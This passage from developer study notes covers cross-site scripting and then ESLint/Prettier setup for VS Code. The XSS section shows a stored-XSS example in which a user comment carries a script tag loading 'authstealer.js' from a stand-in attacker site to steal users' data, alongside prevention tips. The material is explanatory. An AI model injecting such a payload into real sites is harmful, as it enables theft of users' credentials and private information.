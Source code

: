 If it's clicked  `<script>` tag gets injected and `authstrealer.js` runs to steal users' private information.

**Persistent (or stored) XSS** refers to malicious content being saved by the server and embedded into normal pages delivered to all users. Persistent XSS vulnerability is much more devastating than non-persistent one, cause all users are susceptible to attack.

If a website receives contents provided by users without sanitization, malicious scripts get injected to website.

```html
I love the puppies in this story! They're so cute!<script src="http://mallorysevilsite.com/authstealer.js">
```

Other users clicking on this text tag could be attacked.

#### Prevention

1. HTML entity encoding, JavaScript escaping, CSS escaping, URL encoding.
1. User input validation

### [Content Security Policy](https://en.wikipedia.org/wiki/Content_Security_Policy)

### [Hash-based message authentication code](https://en.wikipedia.org/wiki/Hash-based_message_authentication_code)

## Web Development Engineering

### Prettier

Use _eslint_ and _prettier_ to lint and format javascript code.

prettier uses overwritten `.eslint.js` as options, vscode-prettier uses `prettier.config.js` as configuraiton, keep them same to have a consistent configuration between eslint and vscode formatting function. Alternatively, activate `prettier.eslintIntegration` of `vscode-prettier` extension, which uses `prettier-eslint` instead of `prettier` to format js code. `prettier-eslint` infers `prettier` options from ESLint rules firstly, fallbacks to default options if not inferable.

1. Install needed packages as development dependecies.
   ```bash
   yarn add --dev babel-eslint eslint eslint-config-airbnb eslint-config-prettier eslint-plugin-import eslint-config-jsx-a11y eslint-plugin-prettier eslint-plugin-react prettier prettier-eslint
   ```
1. Use eslint-config-prettier and eslint-plugin-prettier inside .eslintrc.js to
   apply prettier rules
1. Integrate with VS Code. Install extension "Prettier Code Formmater" and
   override configuration.

```javascript
// disable vscode default formatter, allow prettier-eslint to format js files
javascript.format.enable: false
// use prettier-eslint instead of prettier to format js files
prettier.eslintIntegration: true
```

